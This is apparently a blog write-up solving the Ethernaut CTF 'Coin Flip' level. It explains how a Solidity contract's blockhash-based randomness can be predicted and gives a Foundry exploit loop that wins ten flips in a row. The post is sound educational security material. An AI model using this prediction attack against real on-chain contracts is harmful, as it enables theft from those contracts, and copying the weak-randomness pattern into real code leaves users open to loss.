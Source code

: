 ```yaml
---
title: 'Ethernaut Challenge #3 Solution — Coin Flip'
excerpt: 'This is Part 2 of the "Let’s play OpenZeppelin Ethernaut CTF" series, where I will explain how to solve each challenge.</br></br>

For this challenge, our end goal is to be able to consecutively guess the coin flip result by calling the `flip()` function passing the correct guess.
'
coverImage: '/assets/blog/ethernaut/coinflip.svg'
date: '2020-07-01T07:00:00.000Z'
author:
  name: Emanuele Ricci
  twitter: StErMi
  picture: '/assets/blog/authors/stermi.jpeg'
ogImage:
  url: '/assets/blog/ethernaut/coinflip.svg'
---
```


This is Part 2 of the ["Let's play OpenZeppelin Ethernaut CTF"](https://stermi.xyz/blog/lets-play-openzeppelin-ethernaut) series, where I will explain how to solve each challenge.

> [The Ethernaut](https://ethernaut.openzeppelin.com/) is a Web3/Solidity based wargame created by [OpenZeppelin](https://openzeppelin.com/).
> Each level is a smart contract that needs to be 'hacked'. The game acts both as a tool for those interested in learning ethereum, and as a way to catalogue historical hacks in levels. Levels can be infinite and the game does not require to be played in any particular order.

# Challenge #3: Coin Flip

> This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.
>
> Things that might help
>
> - See the Help page above, section "Beyond the console"
>
> Level author(s): [Kyle Riley](https://github.com/syncikin)

For this challenge, our end goal is to be able to consecutively guess the coin flip result by calling the `flip()` function passing the correct guess.

## Study the contracts

First thing that we notice, the Solidity compiler version used is `< 0.8.x`. This mean that the contract would be prone to math underflow and overflow bugs.

This contract is importing and using OpenZeppelin [SafeMath](https://docs.openzeppelin.com/contracts/4.x/api/utils#SafeMath) library, so they should be safe about overflow/underflow problems.

There are three state variables:

- `consecutiveWins` initialized by zero from the `constructor`. This variable will count how many consecutive correct guess we have made
- `FACTOR` that is declared as `57896044618658097711785492504343953926634992332820282019728792003956564819968`. Gas optimization tip: it can be declared as `constant` to save gas (see further reading)
- `lastHash` that will be updated each time by the `flip()` function

The only function inside the contract is `flip()`, let's see what it does

```solidity
function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
        revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
        consecutiveWins++;
        return true;
    } else {
        consecutiveWins = 0;
        return false;
    }
}
```

This challenge allows you to learn two important aspects about the blockchain:

1. Everything on the blockchain is public, even private variables like `lastHash` and `FACTOR`
2. There is no real "native" randomness in the blockchain, but only "pseudo randomness"

**Note:** I have added some useful links in the "Further reading" section of the article if you want to learn more about these two topics.

Looking at the code of the function, we know that:

1. We know how to calculate the correct `_guess` function parameter. `_guess = uint256(blockhash(block.number.sub(1))).div(FACTOR) == 1 ? true : false`
2. We know that we cannot call multiple time `flip()` in the same block; otherwise the function will revert. This mean that to pass the challenge, we need to at least guess correctly for 11 blocks. If you look at the Factory contract, you will see that the challenge is solved when `instance.consecutiveWins() >= 10`

Knowing that, let's see the solution.

## Solution code

```solidity
function exploitLevel() internal override {

    vm.startPrank(player);

    uint256 factor = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    uint8 consecutiveWinsToReach = 10;

    while (level.consecutiveWins() < consecutiveWinsToReach) {
        uint256 blockValue = uint256(blockhash(block.number.sub(1)));
        uint256 coinFlip = blockValue.div(factor);

        level.flip(coinFlip == 1 ? true : false);

        // simulate a transaction
        utilities.mineBlocks(1);
    }
    vm.stopPrank();
}
```

As you see, the solution is pretty straightforward. Loop until the `consecutiveWins()` getter tell us we have reached `10`.

Inside the loop we calculate the value to pass to `flip` replicating the same logic of the `CoinFlip.flip` function.

After calling it, we call `utilities.mineBlock(1);`. This is a utility function that I have created that call Foundry cheat code `vm.roll(targetBlock);` that allow you to set the current block number. Basically, we are just increasing the block number in each loop section to simulate that a new block has been minted.

You can read the full solution of the challenge opening [CoinFlip.t.sol](https://github.com/StErMi/foundry-ethernaut/blob/main/test/CoinFlip.t.sol)

## Further reading

- [SWC-120: Weak Sources of Randomness from Chain Attributes](https://swcregistry.io/docs/SWC-120)
- [SWC-136: Unencrypted Private Data On-Chain](https://swcregistry.io/docs/SWC-136)
- [Chainlink VRF (Verifiable Random Function)](https://docs.chain.link/docs/chainlink-vrf/): a provably fair and verifiable random number generator (RNG)
- [Foundry Book Cheat codes](https://book.getfoundry.sh/cheatcodes/)

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

I **do not give any warranties** and **will not be liable for any loss** incurred through any use of this codebase.

**DO NOT USE IN PRODUCTION**.

